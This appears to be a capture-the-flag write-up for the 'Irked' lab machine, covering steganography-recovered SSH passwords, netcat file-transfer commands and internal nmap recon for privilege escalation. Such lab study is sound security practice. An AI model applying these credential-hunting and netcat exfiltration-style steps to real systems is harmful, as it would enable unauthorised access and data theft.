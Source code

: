 
* ###  <span class="irkedmach subtitle">SSH Login  
  * djmardov's password   
    Found a file called `.backup`, obviously hidden, and it had a password (password: UPupDOWNdownLRlrBAbaSSss) that I could use to `stegsnow` the image I found in `/var/www/html` where we find a hidden password in the image (password: Kab6h+m+bbp2J:HG). Mostly, steganography is done on images.   

  * How to connect through SSH    
    ```console
    ssh [USERNAME]@[TARGET IP ADDRESS]
    ```
  * To connect to SSH we will need authenticated credentials.

* ###  <span class="irkedmach subtitle">NetCat  
  * Transferring files using nc  
    * On the listening side (reciever)  
      ```console
      nc -lp [PORT TO RECIEVE FILE ON] > [FILE]
      ```
    * On the sender's side  
      ```console
      nc -w 3 [LISTENING IP ADDRESS] [LISTENING PORT] < [FILE]
      ```

### <span class="irkedmach subtitle">Why I Got Stuck?  

Because I kept searching for something that could help me with an SSH password because I already had the username from the email that was written in the irc version in one of the services.  
I memorized the damn filesystem looking for the right file until I found it.

<br/><br/>

### <span class="irkedmach subtitle">PrivEsc  

* Found this in the LinPeas Output:  
  
```
#From github
/etc/apache2/sites-available/default-ssl.conf:      	#    	file needs this password: `xxj31ZMTZzkVA'.
```

<br/>

* Nmapped Loopback( To see the services running internally)
  
    ```
    PORT	STATE SERVICE
    22/tcp  open  ssh
    25/tcp  open  smtp
    80/tcp  open  http
    111/tcp open  rpcbind
    631/tcp open  ipp
    ```  

    ```
    PORT	STATE SERVICE VERSION
    631/tcp open  ipp 	CUPS 1.7
    | http-methods: Potentially risky methods: PUT
    |_See http://nmap.org/nsedoc/scripts/http-methods.html
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-title: Home - CUPS 1.7.5
    ```  
